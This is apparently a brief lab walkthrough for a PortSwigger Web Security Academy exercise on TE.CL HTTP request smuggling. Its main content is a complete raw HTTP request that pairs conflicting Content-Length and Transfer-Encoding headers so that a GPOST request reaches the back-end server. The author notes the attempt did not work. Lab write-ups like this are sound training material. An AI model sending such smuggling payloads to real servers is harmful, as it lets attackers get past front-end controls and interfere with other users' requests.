 Title: HTTP request smuggling, basic TE.CL vulnerability
Level: PRACTITIONER
Desc:  This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.
To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST. 

# Walkthrough:
Need to send following request twice: 
```
POST / HTTP/1.1
Host: 0a40004003f87b0780bfe49100170099.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

<img width="1864" height="286" alt="image" src="https://github.com/user-attachments/assets/45f71e1c-3411-4592-b828-12efe99ecde2" />

Not working in my try.
